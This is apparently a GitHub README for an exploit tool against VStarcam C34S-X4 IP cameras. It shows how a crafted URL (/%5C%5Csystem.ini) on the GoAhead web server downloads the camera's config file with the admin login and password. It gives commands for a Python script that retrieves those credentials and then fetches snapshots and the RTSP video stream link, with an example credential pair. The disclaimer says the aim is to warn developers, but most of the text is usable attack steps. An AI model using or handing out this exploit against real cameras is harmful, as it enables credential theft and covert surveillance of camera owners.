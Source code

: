 ## Authentication Treversal
The Vulnerability of GoAhead Service on VStarcam C34S-X4 that allows you to download system.ini configuration file and get login and password.
--
## !WARNING!
The author is trying to draw the attention of the developers to the problem and I am not responsible for the harm caused to you or by you.
--


# IMPLEMENTATION

Еo perform the vulnerability, you must log in to the camera interface without authorization. Then, after the forward slash, you must add %5C%5Csystem.ini
and the file will start downloading. When you open the file, you will see your username and password written together. I have already written a small program
that interacts with the ONVIF protocol and receives images from the camera and a link to the RTSP stream.

# STEPS
1) To use it you have to install [python3](https://www.python.org)
[onvif_zeep](https://github.com/FalkTannhaeuser/python-onvif-zeep) and [requests](https://pypi.org/project/requests/)
```sh
git clone https://github.com/Retr0-code/auth-treversal
pip3 install -r requirements.txt
chmod +x GetInfo.py
python3 GetInfo.py --help
```
<br>
2) You can go to you browser and enter this link <b>http://ip:port/%5C%5Csystem.ini</b>
(You must change ip to address of camera and port to port that web-server run on).
<br>

![MozilaV.png](https://github.com/Retr0-code/auth-treversal/blob/main/Images/MozilaV.png)

<br>
Or you can use
<br>

```sh
python3 GetInfo.py --host <camera ip> --port <web-server port>
```

<br>
and than read as text downloaded file.
<br>

![PythonLogPass.png](https://github.com/Retr0-code/auth-treversal/blob/main/Images/PythonLogPass.png)

<br>
3) Now you can log in to web-panel.
<br>
![alt text]()
Or you can use 
<br>

```sh
python3 GetInfo.py --onvif 10080 --host 192.168.0.58 --port 8888
```

<br>
and you get links to snapshots and RTSP stream link.
To get stream you have to specify login and password like this: <b>rtsp://username:password@ip:port/path/to/stream</b> In my case link looks like
this rtsp://admin:888888@192.168.0.58:554/udp/av0_1
<br>

![OnvifShow.png](https://github.com/Retr0-code/auth-treversal/blob/main/Images/OnvifShow.png)
